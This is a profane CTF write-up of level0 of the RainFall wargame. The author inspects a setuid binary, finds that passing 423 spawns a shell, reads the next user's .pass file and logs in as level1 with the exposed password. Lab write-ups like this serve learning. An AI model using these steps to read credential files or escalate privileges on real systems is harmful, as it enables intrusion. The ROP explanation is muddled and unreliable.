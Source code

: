 # rainfall
Kill me, I'm getting kicked 
```
level0@RainFall:~$ ./level0 
Segmentation fault (core dumped)
```
*wtf fucking kill me, I give up*
```
level0@RainFall:~$ file level0 
level0: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=0x85cf4024dbe79c7ccf4f30e7c601a356ce04f412, not stripped
```
*yay not stripped*
```
level0@RainFall:~$ ls -al
-rwsr-x---+ 1 level1 users  747441 Mar  6  2016 level0
```
*nice, the SUID perm again*

Using **binary ninja**, found that the executable calls execve("/bin/sh")
```
mov     dword [esp], data_80c5348  {"/bin/sh"}
call    execv
```
## ROP ( Return-oriented programming) ecploit
Googled it, although I've done pwning before but still can't fucking explain anything

**The main idea is to use the existing small fragments in the program based on the stack buffer overflow. ) to change the value of some registers or variables to control the execution flow of the program.**

It's called ROP because we use the **ret** instruction to change the order in which the instruction stream is executed.

### What the fuck am I doing

```
level0@RainFall:~$ checksec --file level0 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   level0
```
*NX is enabled, meaning you can't use shellcode or put anything on the stack in order to execute it.*

**binary ninja**
```
mov     dword [esp {var_30}], eax
call    atoi
cmp     eax, 0x1a7
```
*compares atoi(arg) to **0x1a7 which is 423**, I love me those compares*
```
level0@RainFall:~$ ./level0 423
$ ls
ls: cannot open directory .: Permission denied
$ getflag
/bin/sh: 2: getflag: not found
$ /bin/getflag
/bin/sh: 3: /bin/getflag: not found
```
*so it opend a shell using execv('/bin/sh'), but nothing special is happening when i execute anything*

this shit calls **setresuid** and a bunch of weird looking functions before execv
### I dont know the point of this project yeeeet, that's why I'm fucking executing getflag from the snowcrash shit
Oh so I need to find a way to read a .pass file in the next user's home directoryy

*ugh*

```
$ cat /home/user/level1/.pass
1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a
```
**yayyyy**
```
level0@RainFall:~$ su level1
Password:1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a
```
## level1